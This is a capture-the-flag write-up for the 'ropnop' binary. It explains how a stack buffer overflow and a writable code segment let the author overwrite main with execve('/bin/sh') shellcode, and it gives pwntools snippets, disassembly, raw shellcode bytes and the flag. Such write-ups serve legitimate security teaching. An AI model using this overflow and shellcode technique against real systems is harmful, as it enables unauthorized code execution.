 # ROPNOP
## General information
### Analyzing the binary
First we use the file command to get some information about the binary.

```
root@dab66e65c349:/pwd/ropnop# file ropnop
ropnop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, with debug_info, not stripped
```

To see what security features are enabled we run checksec.

```
root@dab66e65c349:/pwd/ropnop# checksec ropnop
[*] '/pwd/ropnop/ropnop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Here we directly notice there are no stack-canarys. This allows easy an bufferoverflow, because we don't need to leak values.

### Analyzing the code
Now let's take a look at the provided source code. After the setup we call `ropnop()`. The function prints the start and end of the code segment, later we will use this to defeat ASLR.  Then `mprotect` is called.

`mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);`

This changes the permissions for the code segment to read/write/execute. This is important because if we can write to this segment we can get arbitrary code execution and thereby a shell.
`ropnop()` then uses a while-loop to replace all return instrutions(*op-code: 0xc3*) with a nop(*op-code: 0x90*). However you have to notice that the instruction 

`<+112>:	cmp    ecx, 0xc3`

contains the byte 0xc3 in its opcode and when the while-loop runs over this instruction it gets replaced with

`<+112>:	cmp    ecx,0x90`

Now the function does nothing anymore, because it only replaces nops with nops. This means that only return instruction before the ropnop function are replaced.


Back in main we call read:

```
int* buffer = (int*)&buffer;
read(0, buffer, 0x1337);
```

This enables a buffer overflow, because there is only place for one pointer on the stack, but we can write up to 0x1337 bytes. That way we get control over rbp and rip. You might also notice the function gadget_shop which is never called and contains so useful gadgets for a ROP attack. However gadget_shop is overwritten by ropnop and contains no more return instruction meaning it is now useless. This doesn't really matter because the final exploit needs no specific ROP-gadgets.
## The idea
The buffer overflow allows control over rip, rbp and the stack. If the stack would be executable we could place shell code here and win the challenge, but this is not possible since NX is enabled. We need to overwrite the code segment because it is the only one that has write and execute permissions. To do this we control rip in such a way that we jump back into main and call read again. The following instruction in main set up the read call:
```
<+25>:	xor   edi,edi
<+27>:	lea   rax,[rbp-0x10]
<+31>:	mov   QWORD PTR [rbp-0x10],rax
<+35>:	mov   rax,QWORD PTR [rbp-0x10]
<+39>:	mov   rsi,rax
<+42>:	mov   edx,0x1337
<+47>:	call  0x555555555040 <read@plt>
```
The rax register is the address we will write to and if we can control it we can overwrite code. As you can see at `<+27>` rax is loaded from rbp-0x10 and we already control rbp.

We can use your second buffer overflow to overwrite the last instructions of main with shell code. After we return from read back into main our shell code that sits at the end of main will be executed.
## The exploit
To automate the process of sending and receiving data we can use the python library [pwn-tools](http://docs.pwntools.com/en/stable/). We get the process and store it in the variable p.
```
p = remote("hax1.allesctf.net", 9300)
```
We read the output from the printf in ropnop and extract the start address from the string.
```
recv_buf = p.recv(64).split()

start = int(recv_buf[3], 16)
end = int(recv_buf[-1], 16)
```
We can now use this as a base to calculate other addresses from and defeat ASLR. The first buffer overflow consists of a 16 bytes padding to fill up the stack untill rbp, the next 8 bytes will become the new rbp. The new rbp should point to after the read call in main plus 0x10, because rax will point here after we subtract 0x10. Then the second read call will overwrite the code here with our shell code.

The last 8 bytes from the first bufferoverflow will controll rip. We use this to redirct code execution back into main befor the read call.

From the gdb disassemly of main we can see the offsets for the diffrent instructions.
````
   0x00000000000012a0 <+0>:	push   rbp
   0x00000000000012a1 <+1>:	mov    rbp,rsp
   0x00000000000012a4 <+4>:	sub    rsp,0x20
   0x00000000000012a8 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00000000000012af <+15>:	call   0x1170 <init_buffering>
   0x00000000000012b4 <+20>:	call   0x1200 <ropnop>
   0x00000000000012b9 <+25>:	xor    edi,edi
   0x00000000000012bb <+27>:	lea    rax,[rbp-0x10]
   0x00000000000012bf <+31>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000000012c3 <+35>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000000012c7 <+39>:	mov    rsi,rax
   0x00000000000012ca <+42>:	mov    edx,0x1337
   0x00000000000012cf <+47>:	call   0x1040 <read@plt>
   0x00000000000012d4 <+52>:	xor    ecx,ecx
   0x00000000000012d6 <+54>:	mov    QWORD PTR [rbp-0x18],rax
   0x00000000000012da <+58>:	mov    eax,ecx
   0x00000000000012dc <+60>:	add    rsp,0x20
   0x00000000000012e0 <+64>:	pop    rbp
   0x00000000000012e1 <+65>:	ret
````
So we compute the new rbp value like `rbp = start + 0x12d6 + 0x10` where start is the begining of the code segment. This will cause our 2. read to overwrite main starting at `main<+54>`.

Now we calculate rip so the first read returns to `main<+25>` instead of `main<+52>` to call read again. In code it looks like this `rip = start + 0x12b9`

We use the struct module to turn the integers rip and rbp to bytearrays and send the first input in the expoit script.
````
p.send(padding + rbp + rip)
````

Now we call read again from main, but this time our arguments look like this.

````
 ► 0x5635babeb2cf <main+47>    call   read@plt <0x5635babeb040>
        fd: 0x0
        buf: 0x5635babeb2d6 (main+54) ◂— 0x5635babeb2d6
        nbytes: 0x1337
````
Now we can send our shell code to this read and overwrite main with it. Because aslr is enabled and we have no address from libc to compute offsets from our shell code should work without libc. I used a small nop slide (mainly for testing purposes) and then some assembly that sets up a execve syscall like so:
````
mov    rdx,0x0
lea    rdi,[rip+0x12]
mov    rsi,0x0
mov    rax,0x3b
syscall
nop
nop
````
The nops are there to aline the address. Then we place the string `/bin/sh` immediately after the shell code so rdi will point to this string. Now the syscall will execute a shell and we pwned the binary. I used [this](https://defuse.ca/online-x86-assembler.htm#disassembly) online assembler to get the bytes for the shellcode. In our script the second overflow look like this:
````
nop_slide = b"\x90"*10
shell_code = b"\x48\xC7\xC2\x00\x00\x00\x00\x48\x8D\x3D\x12\x00\x00\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\x90\x90"
shell_string = bytearray("/bin/sh", "ascii")

p.send(nop_slide + shell_code + shell_string + b"\x00")
````
After sending it to the binary we have a shell! You can find the full expolit in the additional files, run it on the remote server then use `cat flag` to get CSCG{s3lf_m0d1fy1ng_c0dez!}.
